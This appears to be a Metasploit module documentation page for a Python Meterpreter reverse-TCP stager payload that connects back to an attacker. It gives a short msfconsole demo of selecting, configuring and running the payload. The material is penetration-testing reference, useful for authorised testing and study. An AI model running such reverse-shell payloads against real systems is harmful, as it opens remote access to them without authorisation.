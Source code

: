 ## Python Meterpreter, Python Reverse TCP Stager

Run a meterpreter server in Python (2.5-2.7 & 3.1-3.5). 
Connect back to the attacker


## Module Name
payload/python/meterpreter/reverse_tcp

## Authors
* Spencer McIntyre





## Platforms
* python

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/python/meterpreter/reverse_tcp
msf payload(reverse_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_tcp) > set TARGET <target-id>
msf payload(reverse_tcp) > show options
   ... show and set options ...
msf payload(reverse_tcp) > run
```
    
    